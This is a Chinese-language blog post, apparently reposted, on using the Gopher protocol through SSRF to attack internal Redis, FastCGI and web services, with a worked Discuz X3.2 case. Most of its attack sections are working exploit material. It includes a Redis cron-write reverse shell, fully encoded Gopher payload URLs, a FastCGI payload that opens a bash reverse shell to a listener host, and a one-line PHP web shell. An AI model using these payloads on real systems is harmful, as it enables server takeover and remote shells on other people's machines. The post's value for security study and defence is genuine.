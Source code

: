 ```yaml
---
layout: post
title: 利用 gopher 协议拓展攻击面
categories:
- Pocket
tags:
---
```

原文地址：https://www.300168.com/biancheng/show-22030.html

收藏时间：2018-04-26 06:11:10

<div  >
<p nodeIndex="61">Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。</p>
<p nodeIndex="62">Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。</p>
<h2 nodeIndex="63">攻击面测试</h2>
<h3 nodeIndex="64">环境</h3>
<ul nodeIndex="66"><li nodeIndex="65">IP: 172.19.23.218</li>
<li nodeIndex="67">OS: CentOS 6</li>
</ul><p nodeIndex="68">根目录下 1.php 内容为：</p>
<pre class="prettyprint" nodeIndex="69">
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
curl_close($ch);
?>
</pre>
<h3 nodeIndex="70">攻击内网 Redis</h3>
<p nodeIndex="71">Redis 任意文件写入现在已经成为十分常见的一个漏洞，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议攻击内网中的 Redis，这无疑可以隔山打牛，直杀内网。</p>
<p nodeIndex="72">首先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议。常见的 exp 是这样的：</p>
<pre class="prettyprint" nodeIndex="73">
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
</pre>
<div nodeIndex="74">
<p nodeIndex="75">利用这个脚本攻击自身并抓包得到数据流：</p>
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/1"/></div></div>
<p nodeIndex="76">改成适配于 Gopher 协议的 URL：</p>
<pre class="prettyprint" nodeIndex="77">
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
</pre>
<div nodeIndex="78">
<p nodeIndex="79">攻击：</p>
<div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/2"/></div></div>
<h3 nodeIndex="80">攻击 FastCGI</h3>
<div nodeIndex="81">
<p nodeIndex="82">一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。</p>
<p nodeIndex="83">首先构造 exp：</p>
<div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/3"/></div></div>
<p nodeIndex="84">构造 Gopher 协议的 URL：</p>
<pre class="prettyprint" nodeIndex="85">
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
</pre>
<div nodeIndex="86">
<p nodeIndex="87">攻击：</p>
<div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/4"/></div></div>
<h3 nodeIndex="88">攻击内网 Vulnerability Web</h3>
<p nodeIndex="89">Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。</p>
<p nodeIndex="90">一个只能 127.0.0.1 访问的 exp.php，内容为：</p>
<pre nodeIndex="91">
<?php system($_POST[e]);?>
</pre>
<p nodeIndex="92">利用方式：</p>
<pre class="prettyprint" nodeIndex="93">
POST /exp.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261
</pre>
<p nodeIndex="94">构造 Gopher 协议的 URL：</p>
<pre class="prettyprint" nodeIndex="95">
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null
</pre>
<div nodeIndex="96">
<p nodeIndex="97">攻击：</p>
</div>
<h2 nodeIndex="98">攻击实例</h2>
<h3 nodeIndex="99">利用 Discuz SSRF 攻击 FastCGI</h3>
<div nodeIndex="100">
<p nodeIndex="101">Discuz X3.2 存在 SSRF 漏洞，当服务器开启了 Gopher wrapper 时，可以进行一系列的攻击。</p>
<p nodeIndex="102">首先根据 phpinfo 确定开启了 Gopher wrapper，且确定 Web 目录、PHP 运行方式为 FastCGI。</p>
<div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/5"/></div><div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/6"/></div><p nodeIndex="103">测试 Gopher 协议是否可用，请求：</p>
</div>
<pre class="prettyprint" nodeIndex="104">
http://127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2fgopher.php%3Fa.jpg%5B%2fimg%5D
</pre>
<p nodeIndex="105">其中 gopher.php 内容为：</p>
<pre class="prettyprint" nodeIndex="106">
<?php
header("Location: gopher://127.0.0.1:2333/_test");
?>
</pre>
<div nodeIndex="107">
<p nodeIndex="108">监听 2333 端口，访问上述 URL 即可验证：</p>
<div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/7"/></div></div>
<p nodeIndex="109">构造 FastCGI 的 Exp：</p>
<pre class="prettyprint" nodeIndex="110">
<?php
header("Location: gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/127.0.0.1/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00");
?>
</pre>
<p nodeIndex="111">请求：</p>
<pre class="prettyprint" nodeIndex="112">
http://127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2f1.php%3Fa.jpg%5B%2fimg%5D
</pre>
<div nodeIndex="113">
<p nodeIndex="114">即可在 2333 端口上收到反弹的 shell：</p>
<div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2018-04-26-2166982451/8"/></div><p nodeIndex="115">攻击视频： <a href="http://7d9lm5.com1.z0.glb.clouddn.com/2016-06-02%2010-59-32.mp4" rel="nofollow,noindex" target="_blank" nodeIndex="199">点我喵</a></p>
</div>
<h2 nodeIndex="116">系统局限性</h2>
<p nodeIndex="117">经过测试发现 Gopher 的以下几点局限性：</p>
<ul nodeIndex="119"><li nodeIndex="118">大部分 PHP 并不会开启 fopen 的 gopher wrapper</li>
<li nodeIndex="120">file_get_contents 的 gopher 协议不能 URLencode</li>
<li nodeIndex="121">file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败</li>
<li nodeIndex="122">PHP 的 curl 默认不 follow 302 跳转</li>
<li nodeIndex="123">curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用</li>
</ul><p nodeIndex="124">更多有待补充。</p>
<p nodeIndex="125">另外，并不限于 PHP 的 SSRF。当存在 XXE、ffmepg SSRF 等漏洞的时候，也可以进行利用。</p>
<h2 nodeIndex="126">更多攻击面</h2>
<p nodeIndex="127">基于 TCP Stream 且不做交互的点都可以进行攻击利用，包括但不限于：</p>
<ul nodeIndex="129"><li nodeIndex="128">HTTP GET/POST</li>
<li nodeIndex="130">Redis</li>
<li nodeIndex="131">Memcache</li>
<li nodeIndex="132">SMTP</li>
<li nodeIndex="133">Telnet</li>
<li nodeIndex="134">基于一个 TCP 包的 exploit</li>
<li nodeIndex="135">FTP（不能实现上传下载文件，但是在有回显的情况下可用于爆破内网 FTP）</li>
</ul><p nodeIndex="136">更多有待补充。</p>

</div>